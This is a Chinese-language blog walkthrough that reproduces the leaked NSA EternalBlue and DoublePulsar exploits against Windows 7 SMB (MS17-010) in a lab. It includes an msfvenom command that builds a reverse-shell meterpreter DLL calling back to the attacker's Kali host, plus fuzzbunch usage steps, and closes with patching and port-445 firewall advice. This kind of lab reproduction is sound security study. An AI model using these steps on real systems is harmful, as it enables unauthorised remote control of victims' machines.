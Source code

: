 ```yaml
---
title: 复现 NSA Enternalblue SMB 漏洞
tags:
  - Enternalblue
  - Doublepulsar
  - SMB
  - Metasploit
categories: Exploit
keywords:
  - Enternalblue
  - Doublepulsar
  - SMB
  - Metasploit
translate_title: replicated-nsa-enternalblue-smb-vulnerability
date: 2017-04-27 17:18:08
---
```


2017年4月14日，Shadow Brokers 再次公开了大量从 NSA 的方程式组织（Equation Group）处窃取的攻击工具，这些工具主要针对 Windows 系统的漏洞，其中还有几个 0 day。工具中的 fuzzbunch 是一个类似于 metasploit 的漏洞利用框架，fb.py 是 fuzzbunch 的入口文件，通过该文件可以调用各攻击模块。

泄露的工具可在 Github 下载：<https://github.com/misterch0c/shadowbroker>

# 0x01 影响范围
下图中列举了工具中相关模块所影响的服务和系统。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/92526918-file_1493343199647_16966.jpg)

# 0x02 漏洞测试
下面使用工具中的 fuzzbunch 框架、Eternalblue 和 Doublepulsar 测试 Windows 下的 SMB 漏洞。首先通过 Eternalblue 利用 MS17-010 漏洞攻击 Windows 系统；然后在 Kali Linux 中用 Metasploit 生成一个能建立反向连接的 DLL，并在 Kali 中监听相应端口；最后使用 Doublepulsar 远程注入恶意 DLL 到目标系统，注入成功后 Kali 将与目标系统建立连接。

## 1. 测试环境
|     PC     |       IP        |  用途  |        备注        |
|:---------- |:--------------- | ------ | ------------------ |
| Win 7 x64  | 192.168.109.1   | 攻击机 | 需安装 [python2.6](https://www.python.org/ftp/python/2.6.6/python-2.6.6.msi)  和 [pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download) |
| Win 7 x86  | 192.168.109.132 | 靶机   |开启 SMB 服务（445端口）   |
| Kali Linux | 192.168.109.128 | 控制端   | 生成payload 并控制回连会话|
首先需要把工具中的 windows 拷贝到攻击机 Win 7 x64中，然后在 windows 目录下新建一个 listeningposts 文件夹。

## 2. 测试流程
### 1）运行 fuzzbunch 框架
在 cmd 中进入 windows 目录，运行 `python fb.py`。输入目标系统 IP（Win 7 x86）和攻击机 IP（Win 7 x64），输入“no” 不重定向，接着输入项目名新建一个项目。     
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/95094523-file_1493344655277_8614.png)      

### 2）调用 Eternalblue 攻击系统
运行` use Eternalblue`，然后大多数步骤只需按回车使用默认参数即可。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/54184530-file_1493344922256_adf5.png)   
下面需要选择 `1）FB` 模式。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/61786740-file_1493345114952_f2f3.png)   
接着继续回车，直到成功运行攻击模块。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/73280707-file_1493345362094_157db.png)    

### 3）Metasploit 生成恶意 DLL
在 Kali Linux 下使用 Metasploit 生成恶意 DLL,它将在目标系统中建立一个反向连接。这里生成的 DLL必须要与目标系统版本一致，下面生成 32 bit 的 DLL。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=6666 -f dll > test.dll
```
之后需要将生成的 test.dll 拷贝到攻击机的 D:\\下。

### 4）开启 msf 监听
在 Kali Linux 下，运行 msf，监听 6666 端口。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/80220500-file_1493346556508_101d9.png)    

### 5）调用 Doublepulsar 注入 DLL
回到攻击机中，执行 `use Doublepulsar` ，回车使用默认参数直到选择 Function 为2 注入 DLL，然后指定 DLL 的路径。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/11038492-file_1493347262266_5c5.png)   
注入成功后将返回如下信息。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/68357990-file_1493347997057_2e1f.png)   
但是这里也会出现个问题，多次注入之后目标系统会出错重启。     
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/56721083-file_1493348716416_6f00.png)

### 6）建立连接
DLL 注入到目标系统之后，Kali Linux 将与目标系统建立连接。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/82624178-file_1493348105266_34db.png)

# 0x03 防御措施
1. 尽快升级系统补丁     
2. 开启防火墙，并限制 445 端口     
通过以下命令添加防火墙规则：
```
netsh advfirewall firewall add rule name="445" protocol=TCP dir=in localport=445 action=block
```

----
References:   
[1] [NSA工具包之0day Eternalblue 复现笔记](http://blog.injectxx.com/2017/04/18/%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0%E3%80%82/)   
[2] [HOW TO EXPLOIT ETERNALBLUE & DOUBLEPULSAR TO GET AN
EMPIRE/METERPRETER SESSION ON WINDOWS 7/2008](https://www.exploit-db.com/docs/41896.pdf)   
[3] [NSA Fuzzbunch分析与利用案例](https://www.vulbox.com/knowledge/detail/?id=6)
